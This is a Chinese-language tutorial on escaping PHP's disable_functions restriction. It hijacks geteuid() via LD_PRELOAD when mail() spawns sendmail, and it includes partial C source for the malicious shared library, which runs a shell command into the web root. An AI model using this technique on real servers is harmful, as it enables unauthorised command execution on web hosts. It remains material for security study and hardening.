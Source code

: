 ## PHP bypass Disable_Functions
当`php.ini`中设置了`disable_functions`，表示php不支持以下函数的调用，那么危险的执行系统命令的函数将不可用，这时需要可以在内部启动一个新的进程，在该进程中通过使用环境变量`LD_PRELOAD`劫持系统函数，让外部程序加载恶意动态链接库文件，从而达到命令执行的效果

![image.png](./LD_PRELOAD深入浅出.assets/2023_06_06_10_11_59_6JOh4zSs.png)

基于这一思路，将突破 disable_functions 限制执行操作系统命令这一目标，大致分解成以下几个步骤：

1. 查看进程调用的系统函数明细
2. 找寻内部可以启动新进程的 PHP 函数
3. 找到这个新进程所调用的系统库函数并重写
4. PHP 环境下劫持系统函数注入代码

虽然 LD_PRELOAD 提供了劫持系统函数的能力，但前提是得控制 PHP 启动外部程序才行，并且只要有进程启动行为即可，无所谓是谁。所以我们要寻找内部可以启动新进程的 PHP 函数。运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于 LD_PRELOAD 的作用，sendmail 调用的系统函数 geteuid() 被优先级更好的 geteuid_shadow.so 中的同名 geteuid() 所劫持。
### C(so)
```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

int geteuid ()
{
    const char* cmdline = "whoami > /var/www/html/test.txt";
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }
    system(cmdline);
```